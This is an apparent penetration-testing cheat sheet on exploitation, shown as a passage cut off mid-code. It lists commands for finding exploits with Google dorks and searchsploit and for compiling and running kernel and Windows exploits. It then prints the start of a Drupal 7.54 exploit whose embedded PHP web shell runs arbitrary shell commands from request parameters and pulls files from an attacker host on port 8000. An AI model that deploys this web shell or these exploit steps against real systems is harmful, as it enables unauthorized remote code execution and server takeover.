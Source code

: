 # Exploitation 
## Search Exploit with google;
 site:exploit-db.com "October CMS"
 site:github.com "October CMS"


## Search Exploit with searchsploit;
```bash
searchsploit OpenSSL
searchsploit OpenSSL | grep --invert-match 'PHP\|Heartbleed\|dos\|windows'

 searchsploit -p 41936.txt
 cp /usr/share/exploitdb/exploits/php/webapps/41936.txt .
```
-------------------------------------------------------------------------------------------------------------------------------
## Compiling the exploit 

##for Linux;
```bash
  which gcc
  gcc -o kernel-exploit 44298.c
 ./kernel-exploit
```
  or 

  ```
  dos2unix exploit.sh (very useful ;) )
  For more; https://tools.kali.org/reporting-tools/dos2unix
  ```


##  Windows;
```bash 
  i686-w64-mingw32-gcc 40564.c -o exploit.exe -lws2_32
```




------------------------------------------------------------------------------------------------------------------------------


Vulnerability in Drupal 7.54

41564.php , explopit 

```php
$url = 'http://<ip>';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<<'EOD'
<?php 
if (isset($_REQUEST['fupload'])) {
 file_put_contents($_REQUEST['fupload'], file_get_contents("http://<ip>:8000/" . $_REQUEST['fupload']));
};
if(isset($_REQUEST['fexec'])) {
 echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
};
?>
EOD;

$file = [
    'filename' => 'badrobot.php',
```
